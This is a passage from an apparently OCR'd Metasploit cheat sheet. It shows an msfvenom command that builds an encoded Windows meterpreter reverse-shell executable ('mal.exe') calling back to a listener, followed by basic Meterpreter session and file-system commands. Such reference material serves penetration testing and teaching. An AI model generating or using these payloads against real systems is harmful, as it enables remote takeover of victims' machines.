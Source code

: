 Example

Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

```
$ msfvenom -p windows/meterpreter/
reverse_tcp -i 5 -e x86/shikata_ga_nai -f
exe LHOST=10.1.1.1 LPORT=4444 > mal.exe
```

### Metasploit Meterpreter

#### Base Commands: 

Display a summary of commands
```
? / help
```

Exit the Meterpreter session
```
exit / quit
```

Show the system name and OS type
```
sysinfo
```

Self-explanatory
```
shutdown / reboot
```


#### File System Commands:

Change directory
```
cd
```

Change directory on local (attacker's) machine
```
lcd
```

Display current working directory
```
pwd / getwd
```

Show the contents of the directory
```
ls
```

Display the contents of a file on screen()
```
cat
```
